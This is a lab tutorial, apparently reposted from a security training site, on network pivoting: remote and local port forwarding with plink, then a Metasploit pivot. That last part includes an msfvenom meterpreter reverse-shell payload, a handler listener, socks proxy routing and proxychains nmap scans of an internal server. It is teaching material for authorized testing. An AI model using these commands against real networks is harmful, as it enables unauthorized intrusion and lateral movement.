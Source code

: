 ##### From https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/
#### Description:
This tutorial is about “moving” through a network (from machine to machine). We use a compromised host as our pivot to move through the network.  This tutorial has a lack of screenshots. You can create the screenshots yourself as you follow this tutorial 😉

#### Prerequisites:
You need (at least) three machines for this tutorial. I suggest using VirtualBox or VMware machines.

The Attacking Box (Kali Linux)
* IP: 192.168.1.16
* Netmask: 255.255.255.0
* Gateway: 192.168.1.1

The pivot host (Windows XP)
Dual-Homed – Configure 2 Network Cards in VirtualBox!
* FIRST IP: 192.168.1.30
* Netmask: 255.255.255.0
* SECOND IP: 10.0.0.2
* Netmask: 255.0.0.0

Web server (IIS, Apache – Windows or Linux, whatever u like) -> I use a Windows 2012 server
* IP: 10.0.0.10
* Netmask: 255.0.0.0

There is no need to use a gateway!


#### Problem:
We want to reach the web server from the attacking box. But how can we do that? Both machines are in different subnets. 

Try to surf to the web server from the Kali-Box: http://10.0.0.10

This does not work!

(If you do not understand the problem at this point I highly suggest you leave this tutorial and get comfortable with network topics such as private network ranges and subnetting)

#### Solution:
We use the dual-homed machine to pivot to the web server!

#### Scenario 1 (Remote Port Forwarding):
We connect to the Windows XP machine using “rdesktop” on the Kali Box. We don´t attack the pivot here. We have the credentials.
	
  1. Connect to the Windows XP machine from your Kali Box: rdesktop 192.168.1.30
  2. Download “plink.exe” from the Kali box to the Windows XP machine
(plink.exe can be found on Kali -> “/usr/share/windows-binaries/plink.exe “-> Copy “plink.exe” to you web server root and start apache on Kali. Now you can download “plink.exe” on the Windows XP machine)
  3. Open a command prompt on the Windows XP machine and navigate to the place where you have saved “plink.exe”
  4. Start SSH Daemon on Kali-Box. /etc/init.d/ssh start
  5. Run the following command on the Windows XP machine:

plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80
(Login with your SSH credentials on Kali)

#### Try to reach the web server from your Kali Box the following way:
http://127.0.0.1:4444 -> Voila: It works! You can see the web server from 10.0.0.10!

OK, but what does the command do? Let’s split the command to see what is going on:

plink 192.168.1.16 -P 22 -> Tunnel the traffic using SSH on Kali-Box 192.168.1.16
-C -R -> -C is compression. -R tells plink to do a “Remote Port Forwarding”
127.0.0.1:4444:10.0.0.10:80 -> Local Host:Local Port:Remote Client:Remote Port (Local from the pivots perspective!)

#### Read the command backward:
“We bind the remote clients port 80 (10.0.0.10:80) to our local port (127.0.0.1:4444) and tunnel the traffic to 192.168.1.16 using SSH (192.168.1.16 -P 22)


#### Scenario 2 (Local Port Forwarding):
We want to connect to our Windows XP machine using Remote Desktop Protocol (RDP). The Port is 3389.
There is an Inbound Firewall rule that blocks connections to this port. Let´s pretend that we are not able to change the firewall settings.

(Create a specific rule on the XP machine or just imagine that RDP is not reachable on Port 3389)
The problem is: We still want RDP connection!

We simply redirect the local port 3389 ,let´s say, to port 3390.

On the Windows XP machine:  plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389
(-L -> Local Port Forwarding)

Read the command backward to understand what is going on:

On the Kali Box:
rdesktop 192.168.1.30:3390 -> Voila, there is our Remote Desktop Session!

Sweet!


#### Scenario 3 (Dynamic Port Forwarding):
You are familiar with the concepts of local and remote port forwarding from Scenario 1 and Scenario 2.
Now let’s do some Hacking!
We want to Nmap the server on 10.0.0.10 from our attacking Kali-Box. Let´s attack the pivot machine to get a meterpreter shell from it.
(Generate a standalone executable meterpreter reverse shell (.exe file) on your Kali box, execute it on the pivot and catch it on Kali using Metasploit)
1. Generate a Stand-Alone meterpreter executable:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.16 LPORT=443 -f exe -o meterpreter.exe

2. Copy meterpreter.exe to Kalis webroot
  
3. Download meterpreter.exe to the XP machine
  
4. Setup the listener on the Kali Box:
    * msfconsole
    * use exploit/multi/handler
    * set PAYLOAD windows/meterpreter/reverse_tcp
    * set LHOST 192.168.1.16
    * set LPORT 443
    * exploit
  
5. Double-Click on meterpreter.exe and run it on the XP Machine
  
6. Now you have the meterpreter connection from the XP Machine on your Kali Box!
  
7. Type “ifconfig” and see that this host is a dual homed machine.
  
8. Type “background” to background the session
  
9. Now we have to add a route to our metasploit session 1:
route add 10.0.0.0 255.0.0.0 1
(1 is the session number in metasploit)
  
10. Verify that the route was added successfully:
route print
  
11. Now configure socks proxy in metasploit and start it:
    * use auxiliary/server/socks4a
    * set SRVHOST 127.0.0.1
    * run
(You can use default settings for SRVHOST 0.0.0.0 as well. The port is important. Default is Port 1080)
  
12. Configure proxy chains on the Kali Box:
    * vi /etc/proxychains.conf
Edit the ProxyList at the bottom of the file:
    * socks4   127.0.0.1   1080
The configuration has to be the same as in metasploit
  
13. Run you nmap scan using proxychains:
Some Tips:
You should use the options -Pn (assume that host is up) and -sT (TCP connect scan) with nmap through proxychains! 
Using other scan types, TCP Syn scan for example, will not work!

proxychains nmap -Pn -sT -p445,3389 10.0.0.10
(These two ports should be opened. If you see “denied” in the nmap result something went wrong with the proxy configuration or the route was added in the meterpreter session. 

Background the meterpreter session and then add the route in metasploit for the meterpreter Session! See Steps 9-11)
  
14. Get Remote Desktop
    * proxychains rdesktop 10.0.0.10
  
15. Surf to 10.0.0.10
    * proxychains firefox 10.0.0.10
